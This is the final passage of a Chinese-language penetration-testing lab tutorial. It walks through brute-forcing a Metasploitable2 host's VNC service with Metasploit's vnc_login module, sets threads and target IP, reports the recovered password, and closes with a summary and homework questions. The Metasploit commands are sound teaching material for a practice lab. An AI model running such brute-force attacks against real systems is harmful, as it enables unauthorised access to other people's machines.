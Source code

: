 配置暴力破解的线程数，线程数越多执行的会越快（当然受限制于当前机器的CPU配置），但配置的线程数越多则越容易被目标主机发现：

```
msf auxiliary(vnc_login) > set THREADS 5
THREADS = > 5
```

配置目标主机 IP 地址：
```
msf auxiliary(vnc_login) > set RHOSTS 192.168.122.102
RHOSTS = > 192.168.122.102
```

执行暴力破解：
```
msf auxiliary(vnc_login) > exploit
```

### 4.4 查看结果

很快 vnc_login 的攻击结果就出来了，因为 vnc 登录没有输入用户名只需要尝试各种常见的弱密码，结果可以看到 vnc 登录的密码为 `password`：

![此处输入图片的描述](../imgs/wm_31.png)

思考：为什么我们没有设置 vnc_login 的 userpass_file 字典文件也可以进行暴力破解攻击？

## 五、总结

### 5.1 总结

在本实验中，我们依旧基于实验楼环境下 Kali 的 MSF 终端，对渗透目标主机 Metasploitable2 的 SSH 服务和 VNC 服务进行暴力破解：

- Linux 基本操作命令
- MSF 终端下的攻击流程
- 暴力破解字典文件的理解
- 暴力破解 SSH 服务
- 暴力破解脚本解析
- 暴力破解 VNC 服务


## 六、课后作业

### 6.1 课后作业

完成以下作业，巩固实验知识：

- 3.7 中的 hydra 是否可以用来进行 VNC 暴力破解？
- 查找 VNC 攻击的脚本并阅读理解，有哪些与 SSH 攻击脚本不同的地方吗？
- 为什么我们没有设置 vnc_login 的 userpass_file 字典文件也可以进行暴力破解攻击？

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。